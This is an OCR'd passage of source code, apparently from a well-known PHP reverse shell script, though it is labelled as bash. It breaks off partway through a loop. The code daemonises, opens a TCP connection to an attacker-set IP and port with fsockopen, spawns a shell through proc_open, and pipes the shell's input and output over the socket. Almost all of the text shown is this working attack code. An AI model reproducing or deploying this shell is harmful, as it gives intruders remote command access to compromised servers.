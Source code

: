 ```bash

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
```
